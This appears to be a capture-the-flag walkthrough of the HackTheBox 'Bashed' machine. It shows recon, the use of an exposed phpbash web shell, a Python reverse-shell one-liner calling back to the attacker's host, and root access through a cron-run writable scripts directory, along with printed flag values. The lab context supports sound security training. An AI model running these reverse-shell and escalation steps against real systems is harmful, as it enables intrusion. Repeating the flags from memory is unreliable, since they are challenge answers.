 #HackTheBox 

## <span style="color:#92d050">About </span>

Bashed is a fairly easy machine which focuses mainly on fuzzing and locating important files. As basic access to the crontab is restricted,

------
## <span style="color:#92d050">Recon</span> 

Nmap scan : 
```shell
nmap -A 10.10.10.68 -oN nmap_scan.txt 
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-22 05:31 EDT
Nmap scan report for 10.10.10.68
Host is up (0.35s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.70 seconds
```

we only have one port open that greatly reduce our time of enumeration .
Operating System : Linux 

---------
## <span style="color:#92d050">HTTP - 80</span> 

 - we have apache httpd service running on port 80 .
 - version : Apache httpd 2.4.18 ((Ubuntu))

Site : 
[[Bashed/Pasted image 20230822151105.png]]
General information about php bash on site .

after some enumeration we find out that php bash is implemented on this system as well .
![[Pasted image 20230822153753.png]]

so I run gobuster to find the directory :
```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .html,.php,.xml,.txt
```

```
/.html                (Status: 403) [Size: 291]
/.php                 (Status: 403) [Size: 290]
/index.html           (Status: 200) [Size: 7743]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/contact.html         (Status: 200) [Size: 7805]
/about.html           (Status: 200) [Size: 8193]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/config.php           (Status: 200) [Size: 0]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
```

I found lot's of directory and started looking for phpbash.php and found it in /dev :
![[Pasted image 20230822154010.png]]

I click on it and it allowed me to run cmd on target machine so i use python reverse shell to connect to my attacker machine nc listener :
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.2",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

before i started a nc listener and got a shell .
```
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 55758
www-data@bashed:/var/www/html/dev$ whoami
www-data
www-data@bashed:/var/www/html/dev$
```

user.txt :
```
www-data@bashed:/home/arrexel$ cat user.txt
cat user.txt
88d56d080afddcb62d805e3d09cb7ef2
www-data@bashed:/home/arrexel$ sudo -l
```

I Found user.txt in user arrexel home directory .

-------
## <span style="color:#92d050">Priv Esc</span> 

#Linux

 - After Getting initial access we started post exploitation by first checking the sudo right .

```
www-data@bashed:/home/arrexel$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```

and find out i can run any thing as user scriptmanager .

so i run this cmd to get scriptmanager's shell :
```
sudo -u scriptmanager bash -i
```

and we switch to user :
```
scriptmanager@bashed:/home$ whoami
whoami
scriptmanager
scriptmanager@bashed:/home$
```

I moved to "/" directory and found a /script directory with scriptmanager as owner usually all directory in "/" are owned by root :
![[Pasted image 20230822163842.png]]

checking /scripts:
```
scriptmanager@bashed:/scripts$ ls -al
ls -al
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Aug 22 04:04 test.txt
```

we have two files and we have read permission to both of them .
checking content of test.txt :
```
scriptmanager@bashed:/scripts$ cat test.txt 
cat test.txt 
testing 123!
```

checking test.py :
```
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

if we look closely test.py is writing to test.txt but test.txt is owned by root and only he can write , that means test.py is executing with root permission in fact all python files in "/scripts" are executing as root permission because of cronjob mentioned in about section .

so i stored a reverse shell code in rev.py and transfer it using python http server and wget on target machine :
![[Pasted image 20230822164503.png]]

I started a nc listener and wait for some time for script to run and i got a reverse shell .
```
rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 55176
# whoami
whoami
root
```

I spawn a tty shell using python one liner :
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

the root.txt :
```
root@bashed:~# ls -al
ls -al
total 28
drwx------  3 root root 4096 Jun  2  2022 .
drwxr-xr-x 23 root root 4096 Jun  2  2022 ..
lrwxrwxrwx  1 root root    9 Jun  2  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3121 Dec  4  2017 .bashrc
drwxr-xr-x  2 root root 4096 Jun  2  2022 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Aug 22 04:00 root.txt
-rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
root@bashed:~# cat root.txt 
cat root.txt 
7d0e756e0b28cee1b2a7de2cb4b28053
root@bashed:~# 
```

